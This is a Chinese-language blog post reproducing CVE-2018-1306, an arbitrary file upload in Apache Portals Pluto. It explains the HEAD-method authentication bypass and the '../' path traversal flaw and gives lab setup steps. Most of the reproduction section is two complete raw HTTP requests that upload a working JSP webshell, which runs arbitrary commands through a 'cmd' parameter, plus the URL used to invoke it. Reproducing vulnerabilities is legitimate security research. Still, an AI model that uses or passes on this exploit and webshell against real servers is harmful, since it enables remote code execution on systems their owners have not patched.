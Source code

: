 ```yaml
---
layout: post
title:  "Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306) " 
date:   2019-08-05 11:03:16
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306)
cover: '/assets/img/posts/apacheplutobanner.png'
---
```


## Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306)

### 漏洞概述

Apache Pluto使用Web.xml中的安全约束配置来控制对资源的访问，但是其中的安全约束配置存在缺陷，攻击者可以绕过身份验证。安全约束配置中，Pluto定义了GET、POST、PUT方法，由于未列出HEAD方法，因此可以使用HTTP HEAD方法来绕过安全约束策略。

并且PortletV3AnnotatedDemo Multipart Portlet war文件代码未限制和验证文件上传路径，攻击者可以利用"../"来自定义上传文件的保存路径。 利用两个设计缺陷进行配合，攻击者可以上传任意文件到任意文件目录，从而能获取服务器的webshell。

### 漏洞环境搭建

* 从 github clone 最新的源码 ：
  
  git clone https://github.com/apache/portals-pluto.git pluto

* 切换分支到3.0.1版本
  
  git checkout pluto-3.0.1

* 安装环境（ant 自动安装）
  
  ant -f dist-build.xml -DincludeDemos=true -DnoClean=true

* 启动环境
  
  进入到/pluto/target/dist/XXX/bin文件夹下，XXX为项目版本的文件夹
  
  运行startup.sh(\*nix)startup.bat(win)

### 漏洞复现

使用 burp 发送以下请求到 Apache Pluto：

```javascript
HEAD /pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0 HTTP/1.1
Host: Host: 172.16.5.146:8080
Content-Type: multipart/form-data; boundary=XX
Content-Length: 727

--XX
Content-Disposition: form-data; name="file"; filename="jspshell.jsp"
Content-Type: application/octet-stream

<FORM METHOD=GET ACTION='jspshell.jsp'>
CMD: <INPUT name='cmd' type=text  value="cmd /c dir">
<INPUT type=submit value='Run'></FORM>
<%@ page import="java.io.*" %>
<%
    String cmd = "whoami";
    String param = request.getParameter("cmd");
    if (param != null){ cmd = param; }
    String s = null;
    String output = "";
    try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) { output += s+"\r\n"; }
    }  catch(IOException e) { e.printStackTrace(); }
%>
<pre><%=output %></pre>
--XX-- 
HEAD /pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0 HTTP/1.1
Host: Host: 172.16.5.146:8080
Content-Type: multipart/form-data; boundary=XX
Content-Length: 748

--XX
Content-Disposition: form-data; name="file"; filename="../../../webapps/pluto/qiuge.jsp"
Content-Type: application/octet-stream

<FORM METHOD=GET ACTION='qiuge.jsp'>
CMD: <INPUT name='cmd' type=text  value="cmd /c dir">
<INPUT type=submit value='Run'></FORM>
<%@ page import="java.io.*" %>
<%
    String cmd = "whoami";
    String param = request.getParameter("cmd");
    if (param != null){ cmd = param; }
    String s = null;
    String output = "";
    try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) { output += s+"\r\n"; }
    }  catch(IOException e) { e.printStackTrace(); }
%>
<pre><%=output %></pre>
--XX--
```

webshell使用：http://172.16.5.146:8080/pluto/qiuge.jsp?cmd=hostname
